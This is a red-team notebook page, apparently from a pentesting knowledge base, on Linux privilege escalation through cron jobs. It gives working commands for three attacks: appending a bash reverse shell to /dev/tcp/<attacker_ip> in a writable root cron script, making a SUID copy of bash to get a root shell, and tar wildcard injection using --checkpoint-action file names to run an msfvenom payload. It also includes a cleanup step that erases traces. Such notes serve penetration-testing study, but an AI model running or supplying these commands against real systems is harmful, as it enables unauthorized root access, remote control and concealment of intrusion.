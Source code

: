 # Unix Shell

## 01 - File Permissions

After performing the Enumeration and Discovery phase for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xC - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Jobs]] and [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Linux/Host/0xF - Files and Directories/Living off the Land|Writable Folders]].

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo "bash -i >& /dev/tcp/<attacker_ip>/<LPORT> 0>&1" >> /usr/local/bin/overwrite.sh
```

You can find more [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/OneLiners/Linux/Reverse Shells/Bash|bash one-liners]] regarding with this section.

## 02 - PATH Environment Variable

Another way we can utilize this vulnerability is way using the same privilege escalation technique for [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/SUID and SGID/README|README]].

We create a new shell script to copy the `/bin/bash` binary and change file permissions with a sticky-bit SUID and SGID.

```
$ cp /usr/local/bin/overwrite.sh /tmp/overwrite.sh.bak
$ cat overwrite.sh
#!/bin/bash  
  
cp /bin/bash /tmp/cronjob  
chmod +xs /tmp/cronjob
$ chmod +x overwrite.sh
$ ls -lah /tmp/cronjob
-rwsr-sr-x 1 root root 905K Jan 19 15:28 /tmp/cronjob
$ /tmp/cronjob -p
cronjob-4.1# whoami
root
cronjob-4.1# exit
exit
```

## 03 - Wildcards

### 3.1 - Detect

One of the few mistakes due to negligence for not taking into account when backing things up with root privileges.

```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Notice the wildcard that runs with a character `*` in the home directory. If we search about the GTFOBins website to exploit the sudo privileges for the archiving program called [tar](https://gtfobins.github.io/gtfobins/tar/).

### 3.2 - Exploit

Generate a payload with msfvenom and look to the [[Global References MSFVenom|MSFVenom Regular Reverse Shell Payloads]] section then transfer the payload to the compromised machine and look more into **File Transfers and Data Exfiltration** section.

```
$ chmod +x shell.elf
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
$ ls -lh
total 0
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint=1
-rw-r--r-- 1 user user    0 Jan 19 15:46 --checkpoint-action=exec=shell.elf
```

### 3.3 - Cleanup

Launch a reverse shell handler like netcat, msfconsole or any handler of your choosing. Once you've received a connection. Cleanup the trace you've left.

```
$ rm /home/user/shell.elf
$ rm /home/user/--checkpoint=1
$ rm /home/user/--checkpoint-action\=exec\=shell.elf
```

---
## References

- [Linux Privilege Escalation by Exploiting Cron Jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)

- [Crontab.guru](https://crontab.guru)